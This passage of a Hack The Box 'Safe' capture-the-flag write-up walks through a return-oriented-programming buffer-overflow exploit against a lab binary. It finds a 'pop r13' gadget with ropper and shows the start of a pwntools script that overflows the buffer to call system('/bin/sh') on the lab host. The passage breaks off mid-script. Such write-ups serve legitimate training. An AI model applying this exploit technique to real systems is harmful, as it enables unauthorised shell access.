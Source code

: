 ![](/assets/images/htb-writeup-safe/ret1.png)

RDI has a null-value so it doesn't point to a memory location I control and therefore is useless at the moment.

Next, I'm gonna use `ropper -f myapp` to look for gadgets I can use to control registers:

![](/assets/images/htb-writeup-safe/ropper.png)

I'll use the gadget at `0x401206` to put the address of `system` into `r13`. I don't care about `r14` and `r15` so I can put any dummy values here. The trick to get the address of `/bin/sh` is in the `sym.test` function. The first instruction pushes `rbp` (which contains the address of `/bin/sh`) on the stack so it updates the `rsp` address. The `mov rdi, rsp` instruction in the fonction takes care of copying the address of `rsp` into `rdi`. At that point I'm all set and when the function jumps to `r13` it will execute `system` with `/bin/sh` as the parameter.

The final exploit looks like this:

```python
from pwn import *

p = remote("safe.htb", 1337)
#p = process("./myapp")

context(os="linux", arch="amd64")
context.log_level = "DEBUG"

JUNK = "A" * 112
JUNK += "/bin/sh\x00" # RBP

"""
ROP chain to populate r13 with system()'s address:

0x0000000000401206: pop r13; pop r14; pop r15; ret;

sym.test() -> Need to JMP to address of system at the end
 (fcn) sym.test 10
   sym.test ();
           0x00401152      55             push rbp
```